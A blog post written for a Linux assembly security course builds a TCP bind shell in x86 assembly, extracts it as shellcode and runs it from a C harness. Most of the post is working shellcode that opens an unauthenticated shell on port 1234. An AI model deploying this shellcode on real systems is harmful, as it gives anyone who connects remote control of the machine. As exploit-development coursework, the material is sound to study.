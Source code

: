 ```yaml
---
title: "SLAE Assignment 1"
date: 2018-02-02
published: true
---
```


### SecurityTube Linux Assembly Expert (SLAE) Course Exercises

[GitHub code repo](https://github.com/wsummerhill/SLAE)

Assignment 1 of the SLAE requires students to create a TCP bind shell in assembly which binds to a port and executes a shell on an incoming connection. Additionally, the port number should be configurable upon execution.

If I break down the functions required for a TCP bind shell in a basic C program, the functions used would be as follows:

1. socketCall
2. bind
3. listen
4. dup2 (x3)
5. execve

I used an online resource to determine the registers and function parameters of each system call above. Each function is separated in the below assembly and executed one at a time until the final execve call is executed.

The networking socket functions can be found with cat /usr/include/linux/net.h which will tell us the call identifier used in the socketcall function since they are different for each operation.

Putting everything together I got the assembly code below.

```
;Author: Will Summerhill
;Create shell_bind_tcp shellcode
;bind to a port - accept as input
;exec shell on incoming connections

;cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep socket - socketcall = 102 (hex 0x66)
;cat /usr/include/i386-linux-gnu/bits/socket_type.h |grep 'SOCK_STREAM'
;Function socket(domain, type, protocol)
;    (AF_INET = 2, SOCK_STREAM = 1, IPPROTO_IP = 0)
;    (EAX, EBX, ECX)

global _start

section .text
_start:

; SocketCall function:
  xor  eax, eax    ;AF_INET = 2
  mov al, 0x02

  xor ebx, ebx    ;EBX: SOCK_STREAM = 1
  mov bl, 0x01

  xor edx, edx    ;EDX: IPPROTO_IP = 0
   
  push edx                ; TCP = 0
  push ebx                ; SOCK_STREAM = 1 
  push eax                ; AF_INET = 2 

  xor ecx, ecx
  mov ecx, esp    ;save stack into ECX

  xor eax, eax
  mov al, 0x66    ;socketcall syscall = 0x66 hex (102 decimal)
  int 0x80    ;execute

  mov edx, eax    ;EDX = sockfd output

; Bind function:
  ;int bind(int sockfd, const struct sockaddr *addr(), socklen_t addrlen)
  
  ;Push *addr() first onto stack
  ;*addr(addr family = AF_INET [2], port [1234], IP addr = INADDR_ANY [0])
  xor ebx, ebx
  push ebx    ;INADDR_ANY = 0
  push word 0xd204  ;PORT: bind port = 1234 in reverse order (0x04d2)  
  push word 2    ;AF_INET = 2
  mov ecx, esp    ;save stack into ECX
  
  ;Now push whole bind() function onto stack in reverse order
  push 0x10    ;addrlen size
  push ecx    ;*addr function
  push edx    ;sockfd = socket from Socketcall function above

  ;call syscall to execute
  xor eax, eax
  mov al, 0x66    ;socketcall syscall = 0x66 hex (102 decimal)
  mov bl, 0x02    ;socketcall type = sys_bind 2
  
  mov ecx, esp    ;move to ECX for execution
  int 0x80    ;execute BIND

; Listen function:
  ;int listen(int sockfd = SOCK_STREAM, int backlog = 1)
  ;Push in reverse order to stack
  push 0x01  ;backlog
  push edx  ;sockfd = Socket from above
  
  xor eax, eax
  xor ebx, ebx
  mov al, 0x66  ;syscall = 0x66 hex (102 decimal)
  mov bl, 0x04  ;socketcall type = SYS_LISTEN
  
  mov ecx, esp
  int 0x80  ;execute syscall

; Accept function:
  ;accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
  ;  sockfd = listening socket created above
  ;  *addr = pointer to a sockaddr structure = NULL
  ;  addrlen = size of *addr = NULL
  
  xor eax, eax  ;clear registers
  xor ebx, ebx

  ; Push in reverse order
  push eax  ;addrlen = NULL
  push eax  ;*addr = NULL
  push edx  ;sockfd = created socket
  mov ecx, esp  ;move function from stack into ECX

  mov al, 0x66  ;syscall to execute
  mov bl, 0x05  ;socketcall type = SYS_ACCEPT 5

  int 0x80  ;execute LISTEN
  mov edx, eax  ;save returned sockfd into old socket

; Dup2 functions:
  ;dup2(int oldfd, newfd)  [syscall 63 (0x3f)]
  ;  EAX = 0x3f (63 decimal)
  ;  EBX = oldfd
  ;  ECX = newfd
  xor eax, eax
  mov al, 0x3f  ;dup2 syscall number (3f hex, 63 decimal)
  
  ;STDIN = 0
  mov ebx, edx  ;oldfd into EBX
  xor ecx, ecx  ;STDIN = 0
  int 0x80  ;execute dup2(oldfd = ebx, newfd = STDIN)

  ;STDOUT = 1
  xor eax, eax
  mov al, 0x3f  ;dup2 function
  mov ebx, edx  ;oldfd into EBX
  inc ecx    ;STDOUT = 1
  int 0x80  ;execute dup2(oldfd = ebx,  newfd = STDOUT)

  ;STDERR = 2
  xor eax, eax
  mov al, 0x3f  ;dup2 function
  mov ebx, edx
  inc ecx    ;STDERR = 2
  int 0x80  ;execute dup2(oldfd = ebx, newfd = STDERR)

; Execve function to execute //bin/sh
  ;execve(filename, argv[], envp[])
  ;  EBX = //bin/sh 0x0
  ;  ECX = address of //bin/sh
  ;  EDX = 0x000000
  
  ;Push contents in reverse order
  xor eax, eax
  push eax

  ; PUSH //bin/sh (8 bytes) in reverse order
  push 0x68732f2f    ;n/sh
  push 0x6e69622f    ;//bi
  mov ebx, esp    ;move into EBX 

  push eax  ;add 0 to stack
  push ebx  ;push address of //bin/sh to stack
  mov ecx, esp
  push eax  ;null terminator after //bin/sh
  mov edx, esp

  mov al, 0xb  ;execve syscall = 11
  int 0x80  ;execute EXECVE to start bind shell
```

It is possible to configure the bind port number as needed by modifying the shellcode in ASM at the line with “;PORT: bind port = 1234” by adding a different port number in big-endian format. 

I’ll use objdump to pull the shellcode from the program and copy it over to C.  
```
objdump -d ./A1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

Now I’ll copy the shellcode into C so we can execute it. 

```
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x02\x31\xdb\xb3\x01\x31\xd2\x52\x53\x50\x31\xc9\x89\xe1\x31\xc0\xb0\x66\xcd\x80\x89\xc2\x31\xdb\x53\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x31\xc0\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x6a\x01\x52\x31\xc0\x31\xdb\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x31\xc0\x31\xdb\x50\x50\x52\x89\xe1\xb0\x66\xb3\x05\xcd\x80\x89\xc2\x31\xc0\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
  printf("Shellcode Length:  %d\n", strlen(code));
  int (*ret)() = (int(*)())code;
  ret();
}
```

Once we compile it the bind shell should listen for incoming connections. After executing the program and connecting using netcat, we get the bind shell on localhost.  

![image](https://user-images.githubusercontent.com/35749735/192896487-de82cef1-22eb-49d8-9fcf-c509dbfcdf12.png)

The assembly code can also be found here on my [Github](https://github.com/wsummerhill/SLAE/blob/master/Assignment%201).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE-1109
